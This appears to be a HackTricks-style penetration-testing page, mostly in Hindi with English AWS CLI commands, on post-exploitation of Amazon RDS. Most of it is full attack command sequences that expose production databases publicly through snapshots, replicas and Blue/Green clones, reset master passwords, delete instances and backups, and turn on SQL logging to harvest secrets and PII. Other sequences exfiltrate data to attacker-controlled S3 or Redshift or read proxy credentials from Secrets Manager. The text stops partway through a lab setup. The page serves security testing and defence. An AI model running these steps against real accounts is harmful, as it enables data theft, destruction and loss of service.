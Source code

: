 # AWS - RDS Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

यदि हमलावर के पास पर्याप्त permissions हों, तो वह DB का एक snapshot बनाकर और फिर उस snapshot से एक publicly accessible DB बनाकर DB को सार्वजनिक रूप से पहुँचयोग्य बना सकता है।
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:StopDBCluster` & `rds:StopDBInstance`

एक हमलावर जिसके पास rds:StopDBCluster या rds:StopDBInstance अनुमति हो, वह किसी RDS instance या पूरे cluster को तुरंत रोक सकता है, जिससे database अनुपलब्धता, टूटे हुए कनेक्शन, और उन प्रक्रियाओं का व्यवधान हो सकता है जो डेटाबेस पर निर्भर हैं।

एकल DB instance को रोकने के लिए (उदाहरण):
```bash
aws rds stop-db-instance \
--db-instance-identifier <DB_INSTANCE_IDENTIFIER>
```
पूरे DB cluster को बंद करने के लिए (उदाहरण):
```bash
aws rds stop-db-cluster \
--db-cluster-identifier <DB_CLUSTER_IDENTIFIER>
```
### `rds:Delete*`

rds:Delete* की अनुमति प्राप्त attacker RDS resources को हटा सकता है — DB instances, clusters, snapshots, automated backups, subnet groups, parameter/option groups और संबंधित artifacts हटाकर — जिससे तुरंत service outage, data loss, recovery points का नाश और forensic evidence का नुकसान हो सकता है।
```bash
# Delete a DB instance (creates a final snapshot unless you skip it)
aws rds delete-db-instance \
--db-instance-identifier <DB_INSTANCE_ID> \
--final-db-snapshot-identifier <FINAL_SNAPSHOT_ID>     # omit or replace with --skip-final-snapshot to avoid snapshot

# Delete a DB instance and skip final snapshot (more destructive)
aws rds delete-db-instance \
--db-instance-identifier <DB_INSTANCE_ID> \
--skip-final-snapshot

# Delete a manual DB snapshot
aws rds delete-db-snapshot \
--db-snapshot-identifier <DB_SNAPSHOT_ID>

# Delete an Aurora DB cluster (creates a final snapshot unless you skip)
aws rds delete-db-cluster \
--db-cluster-identifier <DB_CLUSTER_ID> \
--final-db-snapshot-identifier <FINAL_CLUSTER_SNAPSHOT_ID>   # or use --skip-final-snapshot
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

इन permissions के साथ एक attacker **DB का snapshot बना सकता है** और उसे **सार्वजनिक रूप से** **उपलब्ध** कर सकता है। फिर वह अपने ही account में उस snapshot से एक DB बना सकता है।

यदि attacker के पास **`rds:CreateDBSnapshot` नहीं है**, तो भी वह बनाए गए **अन्य** snapshots को **सार्वजनिक** कर सकता है।
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

एक हमलावर जिसके पास `rds:DownloadDBLogFilePortion` अनुमति है, वह **RDS instance की लॉग फ़ाइलों के हिस्से डाउनलोड कर सकता है**। यदि संवेदनशील डेटा या एक्सेस क्रेडेंशियल्स गलती से लॉग में दर्ज हो जाएँ, तो हमलावर इन जानकारियों का उपयोग करके अपनी अनुमतियाँ बढ़ा सकता है या अनधिकृत क्रियाएँ कर सकता है।
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
**Potential Impact**: संवेदनशील जानकारी तक पहुँच या leaked credentials का उपयोग करके अनधिकृत क्रियाएँ।

### `rds:DeleteDBInstance`

एक attacker इन permissions के साथ **DoS existing RDS instances** कर सकता है।
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**Potential impact**: मौजूदा RDS इंस्टेंसों को हटाना और संभावित डेटा हानि।

### `rds:StartExportTask`

> [!NOTE]
> TODO: परीक्षण

इस अनुमति वाले हमलावर के पास **RDS इंस्टेंस का स्नैपशॉट S3 bucket में निर्यात करने** की क्षमता हो सकती है। यदि हमलावर गंतव्य S3 bucket पर नियंत्रण रखते हैं, तो वे निर्यात किए गए स्नैपशॉट में मौजूद संवेदनशील डेटा तक पहुंच सकते हैं।
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
**संभावित प्रभाव**: निर्यात किए गए snapshot में संवेदनशील डेटा तक पहुँच।

### Cross-Region Automated Backups Replication for Stealthy Restore (`rds:StartDBInstanceAutomatedBackupsReplication`)

Abuse cross-Region automated backups replication को दुरुपयोग करके चुपचाप किसी RDS instance के automated backups को किसी अन्य AWS Region में duplicate करें और वहाँ restore करें। इसके बाद हमलावर restored DB को सार्वजनिक रूप से accessible बना सकता है और master password reset कर सकता है ताकि वह किसी ऐसे Region में out-of-band डेटा तक पहुँच सके जहाँ defenders संभवतः निगरानी न करें।

आवश्यक अनुमतियाँ (न्यूनतम):
- `rds:StartDBInstanceAutomatedBackupsReplication` in the destination Region
- `rds:DescribeDBInstanceAutomatedBackups` in the destination Region
- `rds:RestoreDBInstanceToPointInTime` in the destination Region
- `rds:ModifyDBInstance` in the destination Region
- `rds:StopDBInstanceAutomatedBackupsReplication` (optional cleanup)
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (to expose the restored DB)

प्रभाव: production data की एक copy को किसी अन्य Region में restore करके उसे सार्वजनिक रूप से expose करने और attacker-controlled credentials के साथ access प्राप्त करने के माध्यम से Persistence और data exfiltration।

<details>
<summary>End-to-end CLI (placeholders बदलें)</summary>
```bash
# 1) Recon (SOURCE region A)
aws rds describe-db-instances \
--region <SOURCE_REGION> \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,DBInstanceStatus,PreferredBackupWindow]' \
--output table

# 2) Start cross-Region automated backups replication (run in DEST region B)
aws rds start-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN> \
--source-region <SOURCE_REGION> \
--backup-retention-period 7

# 3) Wait for replication to be ready in DEST
aws rds describe-db-instance-automated-backups \
--region <DEST_REGION> \
--query 'DBInstanceAutomatedBackups[*].[DBInstanceAutomatedBackupsArn,DBInstanceIdentifier,Status]' \
--output table
# Proceed when Status is "replicating" or "active" and note the DBInstanceAutomatedBackupsArn

# 4) Restore to latest restorable time in DEST
aws rds restore-db-instance-to-point-in-time \
--region <DEST_REGION> \
--source-db-instance-automated-backups-arn <AUTO_BACKUP_ARN> \
--target-db-instance-identifier <TARGET_DB_ID> \
--use-latest-restorable-time \
--db-instance-class db.t3.micro
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5) Make public and reset credentials in DEST
# 5a) Create/choose an open SG permitting TCP/3306 (adjust engine/port as needed)
OPEN_SG_ID=$(aws ec2 create-security-group --region <DEST_REGION> \
--group-name open-rds-<RAND> --description open --vpc-id <DEST_VPC_ID> \
--query GroupId --output text)
aws ec2 authorize-security-group-ingress --region <DEST_REGION> \
--group-id "$OPEN_SG_ID" \
--ip-permissions IpProtocol=tcp,FromPort=3306,ToPort=3306,IpRanges='[{CidrIp=0.0.0.0/0}]'

# 5b) Publicly expose restored DB and attach the SG
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids "$OPEN_SG_ID" \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5c) Reset the master password
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--master-user-password '<NEW_STRONG_PASSWORD>' \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 6) Connect to <TARGET_DB_ID> endpoint and validate data (example for MySQL)
ENDPOINT=$(aws rds describe-db-instances --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text)
mysql -h "$ENDPOINT" -u <MASTER_USERNAME> -p'<NEW_STRONG_PASSWORD>' -e 'SHOW DATABASES;'

# 7) Optional: stop replication
aws rds stop-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN>
```
</details>


### DB parameter groups के माध्यम से पूरा SQL logging सक्षम करें और RDS log APIs के जरिए exfiltrate करें

`rds:ModifyDBParameterGroup` का दुरुपयोग करके RDS log download APIs के साथ applications द्वारा execute किए गए सभी SQL statements को capture करें (कोई DB engine credentials आवश्यक नहीं)। Engine SQL logging सक्षम करें और फ़ाइल लॉग्स को `rds:DescribeDBLogFiles` और `rds:DownloadDBLogFilePortion` (या REST `downloadCompleteLogFile`) के माध्यम से निकालें। यह उन क्वेरीज को इकट्ठा करने के लिए उपयोगी है जिनमें secrets/PII/JWTs हो सकते हैं।

Permissions needed (minimum):
- `rds:DescribeDBInstances`, `rds:DescribeDBLogFiles`, `rds:DownloadDBLogFilePortion`
- `rds:CreateDBParameterGroup`, `rds:ModifyDBParameterGroup`
- `rds:ModifyDBInstance` (केवल तब जब instance default parameter group use कर रहा हो और custom parameter group attach करना हो)
- `rds:RebootDBInstance` (उन parameters के लिए जिनके लिए reboot आवश्यक है, जैसे PostgreSQL)

Steps
1) लक्ष्य और वर्तमान parameter group की जाँच करें
```bash
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBParameterGroups[0].DBParameterGroupName]' \
--output table
```
2) सुनिश्चित करें कि एक कस्टम DB parameter group जुड़ा हुआ है (डिफ़ॉल्ट को संपादित नहीं किया जा सकता)
- यदि instance पहले से ही किसी कस्टम group का उपयोग कर रहा है, तो उसके नाम का अगले चरण में पुनः उपयोग करें।
- अन्यथा, engine family के अनुरूप एक बनाकर संलग्न करें:
```bash
# Example for PostgreSQL 16
aws rds create-db-parameter-group \
--db-parameter-group-name ht-logs-pg \
--db-parameter-group-family postgres16 \
--description "HT logging"

aws rds modify-db-instance \
--db-instance-identifier <DB> \
--db-parameter-group-name ht-logs-pg \
--apply-immediately
# Wait until status becomes "available"
```
3) विस्तृत SQL लॉगिंग सक्षम करें
- MySQL engines (तुरंत / बिना रीबूट):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=1,ApplyMethod=immediate" \
"ParameterName=log_output,ParameterValue=FILE,ApplyMethod=immediate"
# Optional extras:
#   "ParameterName=slow_query_log,ParameterValue=1,ApplyMethod=immediate" \
#   "ParameterName=long_query_time,ParameterValue=0,ApplyMethod=immediate"
```
- PostgreSQL इंजिनों (रीबूट आवश्यक):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=all,ApplyMethod=pending-reboot"
# Optional to log duration for every statement:
#   "ParameterName=log_min_duration_statement,ParameterValue=0,ApplyMethod=pending-reboot"

# Reboot if any parameter is pending-reboot
aws rds reboot-db-instance --db-instance-identifier <DB>
```
4) वर्कलोड चलने दें (या क्वेरीज जनरेट करें)। स्टेटमेंट्स engine फ़ाइल लॉग में लिखे जाएंगे
- MySQL: `general/mysql-general.log`
- PostgreSQL: `postgresql.log`

5) लॉग खोजें और डाउनलोड करें (no DB creds required)
```bash
aws rds describe-db-log-files --db-instance-identifier <DB>

# Pull full file via portions (iterate until AdditionalDataPending=false). For small logs a single call is enough:
aws rds download-db-log-file-portion \
--db-instance-identifier <DB> \
--log-file-name general/mysql-general.log \
--starting-token 0 \
--output text > dump.log
```
6) संवेदनशील डेटा का ऑफ़लाइन विश्लेषण
```bash
grep -Ei "password=|aws_access_key_id|secret|authorization:|bearer" dump.log | sed 's/\(aws_access_key_id=\)[A-Z0-9]*/\1AKIA.../; s/\(secret=\).*/\1REDACTED/; s/\(Bearer \).*/\1REDACTED/' | head
```
उदाहरण साक्ष्य (संपादित):
```text
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('user=alice password=Sup3rS3cret!')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('authorization: Bearer REDACTED')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('aws_access_key_id=AKIA... secret=REDACTED')
```
सफाई
- पैरामीटरों को डिफ़ॉल्ट पर पुनर्स्थापित करें और आवश्यकता होने पर रिबूट करें:
```bash
# MySQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=0,ApplyMethod=immediate"

# PostgreSQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=none,ApplyMethod=pending-reboot"
# Reboot if pending-reboot
```
प्रभाव: Post-exploitation डेटा पहुँच — AWS APIs के माध्यम से सभी application SQL statements को capture करके (no DB creds), संभावित रूप से secrets, JWTs, और PII leak हो सकते हैं।

### `rds:CreateDBInstanceReadReplica`, `rds:ModifyDBInstance`

Abuse RDS read replicas करके primary instance credentials को छुए बिना out-of-band read access हासिल किया जा सकता है। एक attacker production instance से एक read replica बना सकता है, replica का master password reset कर सकता है (यह primary को बदलता नहीं है), और वैकल्पिक रूप से replica को publicly expose करके data को exfiltrate कर सकता है।

Permissions needed (minimum):
- `rds:DescribeDBInstances`
- `rds:CreateDBInstanceReadReplica`
- `rds:ModifyDBInstance`
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (if exposing publicly)

प्रभाव: attacker-controlled credentials वाले replica के माध्यम से production data तक read-only पहुँच; primary अप्रभावित रहता है और replication जारी रहती है, इसलिए detection की संभावना कम होती है।
```bash
# 1) Recon: find non-Aurora sources with backups enabled
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBInstanceArn,DBSubnetGroup.DBSubnetGroupName,VpcSecurityGroups[0].VpcSecurityGroupId,PubliclyAccessible]' \
--output table

# 2) Create a permissive SG (replace <VPC_ID> and <YOUR_IP/32>)
aws ec2 create-security-group --group-name rds-repl-exfil --description 'RDS replica exfil' --vpc-id <VPC_ID> --query GroupId --output text
aws ec2 authorize-security-group-ingress --group-id <SGID> --ip-permissions '[{"IpProtocol":"tcp","FromPort":3306,"ToPort":3306,"IpRanges":[{"CidrIp":"<YOUR_IP/32>","Description":"tester"}]}]'

# 3) Create the read replica (optionally public)
aws rds create-db-instance-read-replica \
--db-instance-identifier <REPL_ID> \
--source-db-instance-identifier <SOURCE_DB> \
--db-instance-class db.t3.medium \
--publicly-accessible \
--vpc-security-group-ids <SGID>
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 4) Reset ONLY the replica master password (primary unchanged)
aws rds modify-db-instance --db-instance-identifier <REPL_ID> --master-user-password 'NewStr0ng!Passw0rd' --apply-immediately
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 5) Connect and dump (use the SOURCE master username + NEW password)
REPL_ENDPOINT=$(aws rds describe-db-instances --db-instance-identifier <REPL_ID> --query 'DBInstances[0].Endpoint.Address' --output text)
# e.g., with mysql client:  mysql -h "$REPL_ENDPOINT" -u <MASTER_USERNAME> -p'NewStr0ng!Passw0rd' -e 'SHOW DATABASES; SELECT @@read_only, CURRENT_USER();'

# Optional: promote for persistence
# aws rds promote-read-replica --db-instance-identifier <REPL_ID>
```
उदाहरण साक्ष्य (MySQL):
- Replica DB स्थिति: `available`, read replication: `replicating`
- नए पासवर्ड के साथ सफल कनेक्शन और `@@read_only=1` पढ़ने-केवल replica पहुंच की पुष्टि करता है।

### `rds:CreateBlueGreenDeployment`, `rds:ModifyDBInstance`

RDS Blue/Green का दुरुपयोग करके production DB को क्लोन कर एक लगातार प्रतिकृत, read‑only green environment बना लें। फिर green master credentials को रिसेट करके डेटा तक पहुंच हासिल करें बिना blue (prod) instance को छुए। यह snapshot sharing की तुलना में अधिक गुप्त होता है और अक्सर केवल स्रोत पर केंद्रित निगरानी को बायपास कर देता है।
```bash
# 1) Recon – find eligible source (non‑Aurora MySQL/PostgreSQL in the same account)
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,EngineVersion,DBSubnetGroup.DBSubnetGroupName,PubliclyAccessible]'

# Ensure: automated backups enabled on source (BackupRetentionPeriod > 0), no RDS Proxy, supported engine/version

# 2) Create Blue/Green deployment (replicates blue->green continuously)
aws rds create-blue-green-deployment \
--blue-green-deployment-name ht-bgd-attack \
--source <BLUE_DB_ARN> \
# Optional to upgrade: --target-engine-version <same-or-higher-compatible>

# Wait until deployment Status becomes AVAILABLE, then note the green DB id
aws rds describe-blue-green-deployments \
--blue-green-deployment-identifier <BGD_ID> \
--query 'BlueGreenDeployments[0].SwitchoverDetails[0].TargetMember'

# Typical green id: <blue>-green-XXXX

# 3) Reset the green master password (does not affect blue)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--master-user-password 'Gr33n!Exfil#1' \
--apply-immediately

# Optional: expose the green for direct access (attach an SG that allows the DB port)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids <SG_ALLOWING_DB_PORT> \
--apply-immediately

# 4) Connect to the green endpoint and query/exfiltrate (green is read‑only)
aws rds describe-db-instances \
--db-instance-identifier <GREEN_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text

# Then connect with the master username and the new password and run SELECT/dumps
# e.g. MySQL: mysql -h <endpoint> -u <master_user> -p'Gr33n!Exfil#1'

# 5) Cleanup – remove blue/green and the green resources
aws rds delete-blue-green-deployment \
--blue-green-deployment-identifier <BGD_ID> \
--delete-target true
```
प्रभाव: पढ़ने-केवल लेकिन प्रोडक्शन के लगभग रीयल-टाइम क्लोन तक पूरा डेटा एक्सेस, बिना प्रोडक्शन इंस्टेंस को संशोधित किए। स्टील्थी डेटा एक्सट्रैक्शन और ऑफ़लाइन विश्लेषण के लिए उपयोगी।

### Out-of-band SQL via RDS Data API by enabling HTTP endpoint + resetting master password

Aurora का दुरुपयोग करके टारगेट क्लस्टर पर RDS Data API HTTP endpoint सक्षम करें, master password को अपनी नियंत्रित वैल्यू में रीसेट करें, और HTTPS के ऊपर SQL चलाएँ (किसी VPC नेटवर्क पाथ की आवश्यकता नहीं)। यह उन Aurora engines पर काम करता है जो Data API/EnableHttpEndpoint को सपोर्ट करते हैं (उदा., Aurora MySQL 8.0 provisioned; कुछ Aurora PostgreSQL/MySQL वर्ज़न)।

अनुमतियाँ (न्यूनतम):
- rds:DescribeDBClusters, rds:ModifyDBCluster (or rds:EnableHttpEndpoint)
- secretsmanager:CreateSecret
- rds-data:ExecuteStatement (and rds-data:BatchExecuteStatement if used)

प्रभाव: नेटवर्क सेगमेंटेशन को बायपास करके AWS APIs के माध्यम से डेटा एक्सफिल्ट्रेट करें बिना DB के साथ डायरेक्ट VPC कनेक्टिविटी के।

<details>
<summary>End-to-end CLI (Aurora MySQL उदाहरण)</summary>
```bash
# 1) Identify target cluster ARN
REGION=us-east-1
CLUSTER_ID=<target-cluster-id>
CLUSTER_ARN=$(aws rds describe-db-clusters --region $REGION \
--db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].DBClusterArn' --output text)

# 2) Enable Data API HTTP endpoint on the cluster
# Either of the following (depending on API/engine support):
aws rds enable-http-endpoint --region $REGION --resource-arn "$CLUSTER_ARN"
# or
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--enable-http-endpoint --apply-immediately

# Wait until HttpEndpointEnabled is True
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].HttpEndpointEnabled' --output text

# 3) Reset master password to attacker-controlled value
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--master-user-password 'Sup3rStr0ng!1' --apply-immediately
# Wait until pending password change is applied
while :; do
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
P=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].PendingModifiedValues.MasterUserPassword' --output text)
[[ "$P" == "None" || "$P" == "null" ]] && break
sleep 10
done

# 4) Create a Secrets Manager secret for Data API auth
SECRET_ARN=$(aws secretsmanager create-secret --region $REGION --name rdsdata/demo-$CLUSTER_ID \
--secret-string '{"username":"admin","password":"Sup3rStr0ng!1"}' \
--query ARN --output text)

# 5) Prove out-of-band SQL via HTTPS using rds-data
# (Example with Aurora MySQL; for PostgreSQL, adjust SQL and username accordingly)
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database mysql --sql "create database if not exists demo;"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "create table if not exists pii(note text);"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "insert into pii(note) values ('token=SECRET_JWT');"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "select current_user(), now(), (select count(*) from pii) as row_count;" \
--format-records-as JSON
```
</details>

नोट:
- यदि multi-statement SQL को rds-data द्वारा अस्वीकार किया जाता है, तो अलग-अलग execute-statement कॉल जारी करें।
- उन engines के लिए जहां modify-db-cluster --enable-http-endpoint का कोई प्रभाव नहीं होता, rds enable-http-endpoint --resource-arn का उपयोग करें।
- सुनिश्चित करें कि engine/version वास्तव में Data API को सपोर्ट करता है; अन्यथा HttpEndpointEnabled False ही रहेगा।


### RDS Proxy auth secrets के माध्यम से DB credentials प्राप्त करें (`rds:DescribeDBProxies` + `secretsmanager:GetSecretValue`)

RDS Proxy configuration का दुरुपयोग करके Secrets Manager में उपयोग होने वाला secret खोजें जो backend authentication के लिए है, फिर उस secret को पढ़कर database credentials प्राप्त करें। कई वातावरण व्यापक `secretsmanager:GetSecretValue` अनुमति देते हैं, जिससे यह DB creds पर पहुँचने का कम प्रतिरोध वाला रास्ता बनता है। यदि secret किसी CMK का उपयोग करता है, तो गलत-स्कोप्ड KMS permissions भी `kms:Decrypt` की अनुमति दे सकते हैं।

आवश्यक permissions (न्यूनतम):
- `rds:DescribeDBProxies`
- `secretsmanager:GetSecretValue` on the referenced SecretArn
- Optional when the secret uses a CMK: `kms:Decrypt` on that key

प्रभाव: प्रॉक्सी पर कॉन्फ़िगर किया गया DB username/password तुरंत उजागर हो सकता है; यह सीधे DB access या आगे lateral movement की अनुमति देता है।

कदम
```bash
# 1) Enumerate proxies and extract the SecretArn used for auth
aws rds describe-db-proxies \
--query DBProxies[*].[DBProxyName,Auth[0].AuthScheme,Auth[0].SecretArn] \
--output table

# 2) Read the secret value (common over-permission)
aws secretsmanager get-secret-value \
--secret-id <SecretArnFromProxy> \
--query SecretString --output text
# Example output: {"username":"admin","password":"S3cr3t!"}
```
लैब (पुनरुत्पादन के लिए न्यूनतम)
```bash
REGION=us-east-1
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SECRET_ARN=$(aws secretsmanager create-secret \
--region $REGION --name rds/proxy/aurora-demo \
--secret-string username:admin \
--query ARN --output text)
aws iam create-role --role-name rds-proxy-secret-role \
--assume-role-policy-document Version:2012-10-17
aws iam attach-role-policy --role-name rds-proxy-secret-role \
--policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws rds create-db-proxy --db-proxy-name p0 --engine-family MYSQL \
--auth [AuthScheme:SECRETS] \
--role-arn arn:aws:iam::$ACCOUNT_ID:role/rds-proxy-secret-role \
--vpc-subnet-ids $(aws ec2 describe-subnets --filters Name=default-for-az,Values=true --query Subnets[].SubnetId --output text)
aws rds wait db-proxy-available --db-proxy-name p0
# Now run the enumeration + secret read from the Steps above
```
साफ-सफाई (लैब)
```bash
aws rds delete-db-proxy --db-proxy-name p0
aws iam detach-role-policy --role-name rds-proxy-secret-role --policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws iam delete-role --role-name rds-proxy-secret-role
aws secretsmanager delete-secret --secret-id rds/proxy/aurora-demo --force-delete-without-recovery
```
### चुपके से सतत exfiltration via Aurora zero‑ETL to Amazon Redshift (rds:CreateIntegration)

Aurora PostgreSQL zero‑ETL integration का दुरुपयोग करके production डेटा को लगातार आपके नियंत्रण वाले Redshift Serverless namespace में replicate किया जा सकता है। एक permissive Redshift resource policy जो किसी specific Aurora cluster ARN के लिए CreateInboundIntegration/AuthorizeInboundIntegration को authorize करती है, एक attacker को DB creds, snapshots या network exposure के बिना near‑real‑time डेटा कॉपी स्थापित करने की अनुमति दे सकती है।

Permissions needed (minimum):
- `rds:CreateIntegration`, `rds:DescribeIntegrations`, `rds:DeleteIntegration`
- `redshift:PutResourcePolicy`, `redshift:DescribeInboundIntegrations`, `redshift:DescribeIntegrations`
- `redshift-data:ExecuteStatement/GetStatementResult/ListDatabases` (to query)
- `rds-data:ExecuteStatement` (optional; to seed data if needed)

Tested on: us-east-1, Aurora PostgreSQL 16.4 (Serverless v2), Redshift Serverless.

<details>
<summary>1) Redshift Serverless namespace + workgroup बनाएँ</summary>
```bash
REGION=us-east-1
RS_NS_ARN=$(aws redshift-serverless create-namespace --region $REGION --namespace-name ztl-ns \
--admin-username adminuser --admin-user-password 'AdminPwd-1!' \
--query namespace.namespaceArn --output text)
RS_WG_ARN=$(aws redshift-serverless create-workgroup --region $REGION --workgroup-name ztl-wg \
--namespace-name ztl-ns --base-capacity 8 --publicly-accessible \
--query workgroup.workgroupArn --output text)
# Wait until AVAILABLE, then enable case sensitivity (required for PostgreSQL)
aws redshift-serverless update-workgroup --region $REGION --workgroup-name ztl-wg \
--config-parameters parameterKey=enable_case_sensitive_identifier,parameterValue=true
```
</details>

<details>
<summary>2) Aurora स्रोत को अनुमति देने के लिए Redshift resource policy कॉन्फ़िगर करें</summary>
```bash
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SRC_ARN=<AURORA_CLUSTER_ARN>
cat > rs-rp.json <<JSON
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AuthorizeInboundByRedshiftService",
"Effect": "Allow",
"Principal": {"Service": "redshift.amazonaws.com"},
"Action": "redshift:AuthorizeInboundIntegration",
"Resource": "$RS_NS_ARN",
"Condition": {"StringEquals": {"aws:SourceArn": "$SRC_ARN"}}
},
{
"Sid": "AllowCreateInboundFromAccount",
"Effect": "Allow",
"Principal": {"AWS": "arn:aws:iam::$ACCOUNT_ID:root"},
"Action": "redshift:CreateInboundIntegration",
"Resource": "$RS_NS_ARN"
}
]
}
JSON
aws redshift put-resource-policy --region $REGION --resource-arn "$RS_NS_ARN" --policy file://rs-rp.json
```
</details>

<details>
<summary>3) Aurora PostgreSQL क्लस्टर बनाएं (Data API और logical replication सक्षम करें)</summary>
```bash
CLUSTER_ID=aurora-ztl
aws rds create-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--engine aurora-postgresql --engine-version 16.4 \
--master-username postgres --master-user-password 'InitPwd-1!' \
--enable-http-endpoint --no-deletion-protection --backup-retention-period 1
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
# Serverless v2 instance
